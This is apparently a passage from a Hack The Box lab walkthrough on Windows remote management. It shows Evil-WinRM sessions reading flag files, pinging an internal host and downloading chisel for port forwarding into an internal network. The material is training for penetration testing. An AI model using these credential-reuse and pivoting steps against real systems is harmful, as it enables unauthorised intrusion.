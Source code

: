 Code: shell

```shell
type C:\Users\frewdy\Desktop\flag.txt
```

```shell-session
*Evil-WinRM* PS C:\Users\Frewdy\Documents> type C:\Users\frewdy\Desktop\flag.txt 
```

Answer: `Testing_WINRM_Connection`

## Windows Remote Management (WinRM)

### Question 2

#### "Use Leonvqz hash to connect to SRV02 and read the flag located at C:\Users\Leonvqz\Desktop\flag.txt"

Students will reuse the previously established WinRM session and will proceed to ping `SRV02`:

Code: shell

```shell
ping SRV02
```

```shell-session
*Evil-WinRM* PS C:\Users\Frewdy\Documents> ping SRV02

Pinging SRV02.inlanefreight.local [172.20.0.52] with 32 bytes of data:
Reply from 172.20.0.52: bytes=32 time=1ms TTL=128
Reply from 172.20.0.52: bytes=32 time<1ms TTL=128
Reply from 172.20.0.52: bytes=32 time<1ms TTL=128
Reply from 172.20.0.52: bytes=32 time<1ms TTL=128

Ping statistics for 172.20.0.52:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 1ms, Average = 0ms
```

Subsequently, students will come to know that `SRV02` is part of an internal network, meaning that they will have to establish dynamic port-forwarding using a [chisel](https://github.com/jpillora/chisel). On their workstations, students will proceed to download the respective versions for Linux and Windows from the [releases](https://github.com/jpillora/chisel/releases/tag/v1.9.1):

Code: shell

```shell
wget -q https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz; wget -q https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_windows_amd64.gz
```

```shell-session
┌─[✗]─[htb-ac-8414@htb-qm41uzp2hn]─[~]
└──╼ $ wget -q https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz; wget -q https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_windows_amd64.gz
```
